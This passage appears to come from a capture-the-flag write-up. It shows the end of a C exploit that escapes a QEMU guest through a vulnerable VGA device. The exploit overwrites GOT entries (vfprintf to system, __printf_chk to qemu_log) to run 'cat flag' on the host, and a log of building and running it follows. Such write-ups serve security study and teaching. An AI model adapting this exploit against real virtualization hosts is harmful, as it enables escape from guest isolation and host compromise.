     // copy the "cat flag" string to dst buffer
    // pointed to by dev->vs[16].buf, aka latch[0]
    for ( int i = 0; i < 8; i++ ) {
        vga_mem_write( 0x10000, payload[i] );
    }

    *(size_t*)&payload[0] = 0xf6a3c0;

    // change latch[0] to 0x10CCBE0, so 0x10CCBE0 is our new dst buf
    vga_mem_read( ( 0x10CCBE0 - 8 >> 16 ) );
    vga_mem_read( 0x10CCBE0 - 8 & 0xffff );

    // write 0xf6a3c0 at 0x10CCBE0
    // 0x10CCBE0 is just a global used as first argument for the vfprintf
    // function in qemu_log
    // so now the first argument for vfprintf from inside qemu_log is char* "cat flag"
    for ( int i = 0; i < sizeof( size_t ); i++ ) {
        vga_mem_write( 0x10000, payload[i] );
    }

    *(size_t*)&payload[0] = 0x409DD0;
    // change latch[0] to 0xee7bb0, which is vfprintf@GOT
    vga_mem_read( ( 0xee7bb0 - 0x10 >> 16 ) );
    vga_mem_read( 0xee7bb0 - 0x10 & 0xffff );

    // overwrite vfprintf@GOT with system@PLT (0x409DD0)
    for ( int i = 0; i < sizeof( size_t ); i++ ) {
        vga_mem_write( 0x10000, payload[i] );
    }

    *(size_t*)&payload[0] = 0x9726E8;
    // set latch[0] to 0xee7028, which is __printf_chk@GOT
    vga_mem_read( ( 0xee7028 - 0x18 >> 16 ) );
    vga_mem_read( 0xee7028 - 0x18 & 0xffff );

    // overwrite __printf_chk@GOT with addr of qemu_log (0x9726E8)
    for ( int i = 0; i < sizeof( size_t ); i++ ) {
        vga_mem_write( 0x10000, payload[i] );
    }

    // set the command to trigger the __printf_chk
    SR( 0xcc, 2 );

    // call the __printf_chk@GOT which is now qemu_log
    // qemu_log executes vfprintf@GOT which is now system@PLT
    // it uses our string "cat flag" as argument
    vga_mem_write( 0x10000, 0 );

    return 0;
}
{% endhighlight %}

{% highlight bash %}
[q-escape] musl-gcc -s -static -o pwn-min pwn-min.c && echo pwn-min | cpio -A -H newc -ov -F initramfs.cpio
pwn-min
20 blocks
[q-escape] ls -la pwn-min
-rwxr-xr-x 1 vagrant vagrant 9168 Nov 29 21:28 pwn-min
[q-escape]
[q-escape] ./run.sh
SeaBIOS (version rel-1.11.2-0-gf9626ccb91-prebuilt.qemu-project.org)
iPXE (http://ipxe.org) 00:03.0 C980 PCI2.10 PnP PMM+03F91380+03EF1380 C980
Booting from ROM..
...
Boot took 7.49 seconds
/bin/sh: cant access tty; job control turned off
/ # /pwn-min